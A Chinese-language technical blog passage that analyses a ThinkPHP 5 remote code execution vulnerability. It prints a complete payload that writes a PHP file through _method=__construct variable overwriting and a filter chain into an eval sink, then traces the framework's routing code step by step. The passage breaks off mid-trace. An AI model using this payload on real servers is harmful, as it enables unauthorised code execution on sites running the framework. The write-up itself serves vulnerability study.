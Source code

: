 先放上流程图（本人比较菜鸡 所以只能用这种方法记录下来流程）

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7BJ7cK87GZsQibpp1PFoRbSlnZAVy5u2hC7aMlnVcickicU5zNXLdpWtkQ/640?wx_fmt=png)图 11

首先放上 payload

```
path=<?php file_put_contents('ccc.php','<?php phpinfo();?>'); ?>&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=\think\view\driver\Php::Display&method=GET
```

### payload 的分析

使用`file_put_contents()`写入，使用变量覆盖将`_method`的值设置为`_construct`，这里的`set_error_handler`是设置用户自定义的错误处理程序，能够绕过标准的 php 错误处理程序，接下来就是调用 **\think\view\driver\Php** 下面的`Display`方法，因为我们要利用里面的

```
eval('?>' . $content);
```

完成 RCE 的目的

![](https://mmbiz.qpic.cn/mmbiz_jpg/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7aoFQiaeEA72FaCUicKnKY4lmJAAzxRlutbYKeicJPIEsicicCUqkzHzWemQ/640?wx_fmt=jpeg)图 12

虽然会报错，但是不影响写入

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7Sd8AUF4niaI6ib26yHjRf4mCU4OeAuWJpkoK4wjIWIElPic6ibXIVBhtTA/640?wx_fmt=png)图 13

首先从 App.php 开始，在 routeCheck 方法处打断点

```
public static function routeCheck($request, array $config){    $path   = $request->path();    $depr   = $config['pathinfo_depr'];    $result = false;    // 路由检测    $check = !is_null(self::$routeCheck) ? self::$routeCheck : $config['url_route_on'];    if ($check) {        // 开启路由        if (is_file(RUNTIME_PATH . 'route.php')) {            // 读取路由缓存            $rules = include RUNTIME_PATH . 'route.php';            if (is_array($rules)) {                Route::rules($rules);            }        } else {            $files = $config['route_config_file'];            foreach ($files as $file) {                if (is_file(CONF_PATH . $file . CONF_EXT)) {                    // 导入路由配置                    $rules = include CONF_PATH . $file . CONF_EXT;                    if (is_array($rules)) {                        Route::import($rules);                    }                }            }        }
```

这一步主要是获取`$path`的值，也就是我们要走的路由`captcha`

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7OMHBa1xMpibWibtsSuDzqYYBx4oqg2r6EROicxx0RCxZH2Q2Bzg6HWVsw/640?wx_fmt=png)图 14

继续往下走，$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);，跟进`check`方法，这里面的重点就是获取`method`的值，`$request->method()`

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7cLYOZvmCYSV6zlbkUMicD5EKhsEJmz7n104c2pH1GdLEAP9GcmdJgqg/640?wx_fmt=png)图 15

这里是调用`var_method`，因为我们传入了`_method=__construct`，也就是变量覆盖，这些步骤和上面的几乎一样

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv34lFXBRcuagyq3fYp2VbuE7lWtIWBJaU4TLfI6rAYkyqYK8ZqicK1aiaCvmyxFcIovwuQDE4Rk0G5Cw/640?wx_fmt=png)图 16

那下一步继续跟进`__construct`，走完`construct`函数后，可以看到大部分的值都是我们希望传进去的，这时`method`的值为 GET，也就是为什么 payload 里面要传 GET 的原因

